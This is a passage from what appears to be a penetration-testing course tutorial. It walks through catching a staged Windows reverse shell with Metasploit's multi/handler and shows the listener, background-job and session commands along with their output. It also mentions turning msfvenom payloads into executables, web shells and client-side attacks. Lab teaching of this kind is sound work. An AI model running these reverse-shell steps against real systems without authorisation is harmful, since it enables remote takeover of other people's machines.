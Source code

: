 ```bash

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.119.2:443 
```

Once our listener is running on port 443, we can start staged.exe again on BRUTE2. Our Metasploit multi/handler receives the incoming staged payload and provides us with an interactive reverse shell in the context of a session.

We received the staged reverse shell and Metasploit started a session for us to use. For staged and other advanced payload types (such as Meterpreter), we must use multi/handler instead of tools like Netcat in order for the payload to work.

Using run without any arguments will block the command prompt until execution finishes or we background the session. As we've learned before, we can use run -j to start the listener in the background, allowing us to continue other work while we wait for the connection. We can use the jobs command to get a list of all currently active jobs, such as active listeners waiting for connections.

Let's exit our session and restart the listener with run -j. Then, we'll list the currently active jobs using jobs. Once we execute staged.exe again, Metasploit notifies us that a new session was created.

```bash
C:\Users\justin> exit
exit

[*] 192.168.50.202 - Command shell session 6 closed.  Reason: User exit
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.119.2:443 

msf6 exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                        Payload opts
  --  ----                    -------                        ------------
  1   Exploit: multi/handler  windows/x64/shell/reverse_tcp  tcp://192.168.119.2:443

msf6 exploit(multi/handler) > 
```

As Metasploit created a new session for the incoming connection, we could now again interact with it with sessions -i and the session ID as argument.

We can use the generated executable payloads from msfvenom in various situations during a penetration test. First, we can use them to create executable file types such as PowerShell scripts, Windows executables, or Linux executable files to transfer them to a target and start a reverse shell. Next, we can create malicious files such as web shells to exploit web application vulnerabilities. Finally, we can also use the generated files from msfvenom as part of a client-side attack.
